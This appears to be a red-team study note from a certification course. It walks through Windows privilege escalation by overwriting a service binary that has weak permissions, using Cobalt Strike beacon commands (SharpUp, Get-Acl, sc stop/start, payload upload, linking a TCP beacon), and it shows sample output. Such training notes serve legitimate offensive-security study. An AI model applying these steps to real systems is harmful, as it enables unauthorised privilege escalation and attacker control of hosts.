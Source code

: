 
The weak permissions are on the binary itself, unlike [[Weak Service Permissions]].


## 🖊️ Enumeration

1) Use SharpUp to analyze binaries on the system:

`beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

2) Use built in powershell command Get-Acl to get info on a specific binary:

`beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl`

3) In the Access section, check which groups have "Modify" access, if your group does then you overwrite the binary with your payload. Rename your payload as the service.
4) While trying to overwrite the file you may get an error message that the file is being used. Try stopping the service and overwrite the file, the execute. 
5) 
```
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 290kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```

Remember to use [[Raw TCP Listener]] and [[TCP Beacon]] for this privesc method. 


### Properties
---
📆 created   {{10-02-2024}} 13:10
🏷️ tags: #redteam #crto 

---


